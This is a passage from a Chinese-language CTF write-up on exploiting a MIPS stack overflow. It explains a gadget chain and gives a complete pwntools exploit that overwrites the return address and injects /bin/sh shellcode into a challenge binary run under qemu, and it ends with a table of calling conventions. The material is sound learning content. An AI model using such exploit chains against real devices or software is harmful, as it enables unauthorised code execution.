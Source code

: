 ```python
.text:00400A58                 addiu   $sp, 0x80
```

故我们控制栈地址到$s2寄存器的值也是回收之后的栈空间，故这个栈空间就是溢出返回地址之后的栈空间，故我们的gadget是`$sp+0x64`，直接在溢出点后的0x64位置处拼接shellcode即可，故完整exp如下：

```python
from pwn import *
context(arch='mips',endian='big',log_level='debug')
io = process(["qemu-mips","./pwn"])
io.sendlineafter("number:","1")

ra = 0x004273C4 # move sp+0x64 to a2 -> jmp s0
s0 = 0x00421684 # jmp a2                   

payload = '1:'
payload += 'a'*0x6c + p32(s0) + 'a'*0x20 + p32(ra)
payload += 'a'*0x64 + asm(shellcraft.sh())
io.sendlineafter("Job.'",payload)
io.interactive()
```

## 总结

- [ARM架构下的 Pwn 的一般解决思路](https://www.anquanke.com/post/id/199112)
- [固件安全之MIPS架构栈溢出利用技巧](https://www.anquanke.com/post/id/202219)


|          | x86_32(8+2)        | x86_64 (16+2)            | arm32(16+2)              | mips32(32+8)                    |
| -------- | ------------------ | ------------------------ | ------------------------ | ------------------------------- |
| 调用指令 | call               | call                     | b系列指令                | jal bal                         |
| 返回地址 | call将返回地址压栈 | call将返回地址压栈       | bl将返回地址送入lr寄存器 | jal bal 将 +8 地址压入ra（r31） |
| 参数     | 栈                 | rdi rsi rdx rcx r8 r9 栈 | r0-r3,栈                 | a0-a3(r4-r7)                    |
| 返回值   | eax                | rax                      | r0                       | v0-v1(r2-r3)                    |
| 栈       | ebp esp            | rbp rsp                  | fp(r11) sp(r13)          | fp(r13) sp(r29)                 |